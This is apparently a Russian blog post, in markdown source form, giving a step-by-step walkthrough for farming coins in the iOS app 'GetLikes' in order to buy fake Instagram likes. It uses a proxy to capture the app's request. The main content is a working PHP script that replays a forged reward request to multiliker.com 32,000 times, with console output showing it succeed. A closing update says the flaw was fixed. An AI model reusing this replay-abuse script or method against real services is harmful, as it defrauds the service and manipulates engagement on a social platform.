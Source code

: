 ```yaml
---
title: Как «накрутить лайки» в Instagram, используя уязвимость приложения «GetLikes» для iOS
slug: how-get-likes-in-instagram-using-getlikes-vulnerability
date: 2015-06-26T11:44:42+00:00
aliases: [/hack/how-get-likes-in-instagram-using-getlikes-vulnerability]
image: cover.jpg
categories: [hack]
tags:
  - hack
  - instagram
  - iOS
  - like
  - linux
  - php
  - proxy
---
```


> Данный пост является повторением действий, описанных хабраюзером [jo1n](https://habr.com/users/jo1n/) в его [посте](https://habr.com/post/261153/) на хабре.
>
> Disclaimer: Все действия носят сугубо познавательный характер. Более того - "накручивать лайки" - дело лишенное какого-либо смысла, всё рассмотренное ниже стоит рассматривать только как познавательный материал.

Для того, чтоб "накрутить лайки" мы будем использовать одну уязвимость, найденную тов. jo1n в приложении "[GetLikes][1]" для iOS, которая позволяет получать "монеты" в одноименном приложении без выполнения каких-либо действий (таких как установка "лайков" другим участникам приложения), и в последствии тратить их на то, чтоб нам к нашим фотографиям ставили массово эти самые "лайки".

<!--more-->

Рассмотрим весь процесс в виде нескольких этапов.

#### Подготовка

Для выполнения поставленной задачи нам потребуются:

  1. iPhone, на который есть возможность устанавливать приложения и изменять настройки сетевого подключения;
  2. Компьютер под управлением Windows (Linux / Mac OS);
  3. Подключение обоих устройств к одной WiFi точке;
  4. Подключение к сети интернет;

На компьютер скачиваем и устанавливаем [Сharles](http://www.charlesproxy.com/download/) - прокси-сервер для отладки web-приложений. После установки - запускаем (_не забываем **разрешить** доступ приложению к сети в настройках брандмауэра / межсетевого экрана_), и проверяем настройки порта и наличия статуса в правом нижнем углу "Recording":

![screenshot](https://hsto.org/files/44e/18f/38a/44e18f38ac914963b597148d64fbaa22.png)

#### Настройка

После этого - переходим к настройке iPhone на работу через наш прокси сервер. Для этого смотрим какой у нас IP присвоен компьютеру:

![screenshot](https://hsto.org/files/86b/99c/cae/86b99ccae5c74559af83db17f62aaf86.png)

И укажем полученные нами настройки в WiFi подключении iPhohe (`Настройки` &rarr; `Wi-Fi` &rarr; тап по `(i)` напротив активного подключения):

![screenshot](https://hsto.org/files/c24/323/086/c24323086faf4896bf16b405ae3705fd.png)

#### Установка приложения на iPhone

Далее - ставим приложение (поиск в App Store по словам `Get likes on Instagram` - третий результат) и авторизируемся в нем c помощью учетной записи от Instagram:

![screenshot](https://hsto.org/files/3af/065/7cc/3af0657cc9374a48b39908417b053ccb.png)

#### Получение запроса, который отправляет приложение

После этого очищаем текущую сессию в Charles, ставим 1 сердце, и смотрим что он нам покажет:

![screenshot](https://hsto.org/files/dee/165/898/dee1658989334baeb47ae4f56aa8aaaa.png)

- `hash` — наш токен, который обновляется при авторизации в приложении;
- `media` — номер изображения, которому мы поставили лайк;
- `answer` — ответ от сервера instagram (поставили ли мы лайк или нет?).

#### Эксплуатация уязвимости

Уязвимость сервиса заключается в том, что этот же самый запрос мы можем выполнить очень много раз, вне зависимости от того - поставили мы "сердце" или же нет - нам будет зачислена 1 "монета". Автоматизируем данный процесс, например, при помощи такого php-скрипта:

```php
<?php

function postData($url, $data){
  $curl = curl_init();
  curl_setopt($curl, CURLOPT_URL, $url);
  curl_setopt($curl, CURLOPT_RETURNTRANSFER,true);
  curl_setopt($curl, CURLOPT_POST, true);
  curl_setopt($curl, CURLOPT_POSTFIELDS, $data);
  curl_setopt($curl, CURLOPT_USERAGENT, "Mozilla/5.0 (iPhone; U; CPU iPhone OS 4_0 ".
    "like Mac OS X; en-us) AppleWebKit/532.9 (KHTML, like Gecko) Version/4.0.5 ".
    "Mobile/8A293 Safari/6531.22.7");
  $out = curl_exec($curl);
  curl_close($curl);
  return $out;
}

if(!isset($argv[1]) && !isset($argv[2])) {
  die("You must pass *hash* and *media* strings in arguments".PHP_EOL);
} else {
  $hash = $argv[1];
  $media = $argv[2];
  $likes_count = 32000;

  $i = 0;
  while ($i < $likes_count){
    $delay = rand(10, 2000) / 1000;
    $out = json_decode(postData('http://www.multiliker.com/service/like2/', 'hash='.$hash.
                                '&#038;media='.$media.'&#038;answer={"status":"ok"}'), true);
    echo '['.$i.'] '.$out['result'].': '.$out['message'].' (delay '.$delay.')'.PHP_EOL;
    if($out['result'] !== 'success') {
      die('Update *hash* and *media* values'.PHP_EOL);
    }
    $i++;
    sleep($delay);
  }
}
```

И запускаем его из консоли на нашем дедике (первый параметр - это `hash` из ответа выше, а второй, соответственно - `media`):

```bash
$ php ./likes_craft.php "a752a54b08158c8fdee279d8fc2fc494013c911c" "1015696816576458399_632650570"
[0] success: Like has been received (delay 0.146)
[1] success: Like has been received (delay 0.592)
[2] success: Like has been received (delay 0.761)
[3] success: Like has been received (delay 1.937)
[4] success: Like has been received (delay 0.088)
[5] success: Like has been received (delay 1.189)
[6] success: Like has been received (delay 0.023)
[7] success: Like has been received (delay 1.557)
...
```

После чего можем убрать настройки прокси-сервера, оставить скрипт работать в фоне, а в приложении наблюдать как появляются халявные "монеты". Можно теперь их тратить на накрутку сердец :)

Знают ли разработчики о наличии уязвимости? Да, знают. Когда исправят и исправят ли вообще? Не известно.

### Update. Хуяюшки, усё пофиксили. Надо было раньше тебе успевать

[1]:http://www.multiliker.com
